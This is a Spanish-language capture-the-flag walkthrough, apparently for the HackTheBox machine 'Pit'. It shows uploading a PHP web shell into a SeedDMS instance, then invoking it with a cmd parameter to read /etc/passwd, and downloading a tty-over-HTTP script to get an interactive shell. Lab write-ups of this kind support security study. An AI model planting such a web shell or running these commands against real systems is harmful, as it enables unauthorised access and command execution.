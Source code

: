 ```r
  32   │ Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```
*Podemos ver esto...*

![[Pasted image 20241009174734.png]]
*Navegamos entre directorios hasta que veamos uno en el que tengamos la opción de subir nosotros un documento...*

![[Pasted image 20241009174802.png]]
*Tendriamos que ver un panel tal que así.*

```php
❯ cat 1.php
───────┬──────────────────────────────────
       │ File: 1.php
───────┼──────────────────────────────────
   1   │ <?php
   2   │ 
   3   │ if(isset($_REQUEST['cmd'])){
   4   │         echo "<pre>";
   5   │         $cmd = ($_REQUEST['cmd']);
   6   │         system($cmd);
   7   │         echo "</pre>";
   8   │         die;
   9   │ }
  10   │ 
  11   │ ?>
───────┴─────────────────────────────────────
```
*Ahora cogemos este archivo...*

![[Pasted image 20241009175305.png]]
*Agregamos el archivo para subir...*

![[Pasted image 20241009175503.png]]
*Lo hemos subido correctamente y haciendo hovering podemos ver abajo que nuestro archivo contiene el id=29*

![[Pasted image 20241009175723.png]]
*Ahora accediendo a la ruta: http://dms-pit.htb/seeddms51x/data/1048576/29/1.php?cmd=cat+/etc/passwd podemos ver lo siguiente*

```r
https://github.com/s4vitar/ttyoverhttp
```
*Vamos a coger este recurso de s4vitar que permite tener una tty...*

```r
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/refs/heads/master/tty_over_http.py

tty_over_http.py  100%[=======================>]   1.89K  --.-KB/s    in 0s
```
*Nos traemos el recurso...*
